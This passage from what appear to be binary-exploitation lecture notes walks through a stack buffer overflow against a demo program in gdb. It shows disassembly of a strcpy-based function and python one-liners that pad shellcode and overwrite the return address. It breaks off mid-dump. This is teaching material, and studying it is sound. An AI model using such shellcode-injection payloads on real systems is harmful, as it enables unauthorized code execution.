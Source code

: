 ``` {.example}
   0x0804850a <+53>:    mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>:    call   0x8048350 <printf@plt>
   0x08048516 <+65>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>:    cmp    eax,DWORD PTR [ebp+0x8]
   0x0804851c <+71>:    jl     0x80484f6 <vuln+33>
   0x0804851e <+73>:    leave  
   0x0804851f <+74>:    ret    
End of assembler dump.
(gdb) p $ebp-0xc
$1 = (void *) 0xbffff5fc
```

So the address we need to overwrite is 0xbffff5fc instead of 0xdeadbeef.
Let's give that a try:

``` {.example}
gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xfc\xf5\xff\xbf'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\xfc\xf5\xff\xbf'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) c
Continuing.
[Inferior 1 (process 6932) exited normally]
```

And, we FAIL! What happened?

Let's do that again, and inspect the stack a bit more.

``` {.example}
gdb) r 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\x1c\xf6\xff\xbf'"`
The program being debugged has been started already.
Start it from the beginning? (y or n) y

Starting program: /home/user/git/si485-binary-exploits/lec/10/demo/vulnerable 5 `python -c "sh=open('shell').read(); print sh+'A'*(0x30-len(sh))+'\x1c\xf6\xff\xbf'"`

Breakpoint 1, 0x080484db in vuln ()
(gdb) ni 6
0x080484f4 in vuln ()
(gdb) ds
Dump of assembler code for function vuln:
   0x080484d5 <+0>: push   ebp
   0x080484d6 <+1>: mov    ebp,esp
   0x080484d8 <+3>: sub    esp,0x48
   0x080484db <+6>: mov    DWORD PTR [ebp-0xc],0x0
   0x080484e2 <+13>:    mov    eax,DWORD PTR [ebp+0xc]
   0x080484e5 <+16>:    mov    DWORD PTR [esp+0x4],eax
   0x080484e9 <+20>:    lea    eax,[ebp-0x2c]
   0x080484ec <+23>:    mov    DWORD PTR [esp],eax
   0x080484ef <+26>:    call   0x8048360 <strcpy@plt>
=> 0x080484f4 <+31>:    jmp    0x8048516 <vuln+65>
   0x080484f6 <+33>:    mov    eax,DWORD PTR [ebp-0xc]
   0x080484f9 <+36>:    lea    edx,[eax+0x1]
   0x080484fc <+39>:    mov    DWORD PTR [ebp-0xc],edx
   0x080484ff <+42>:    lea    edx,[ebp-0x2c]
   0x08048502 <+45>:    mov    DWORD PTR [esp+0x8],edx
   0x08048506 <+49>:    mov    DWORD PTR [esp+0x4],eax
   0x0804850a <+53>:    mov    DWORD PTR [esp],0x804860e
   0x08048511 <+60>:    call   0x8048350 <printf@plt>
   0x08048516 <+65>:    mov    eax,DWORD PTR [ebp-0xc]
   0x08048519 <+68>:    cmp    eax,DWORD PTR [ebp+0x8]
```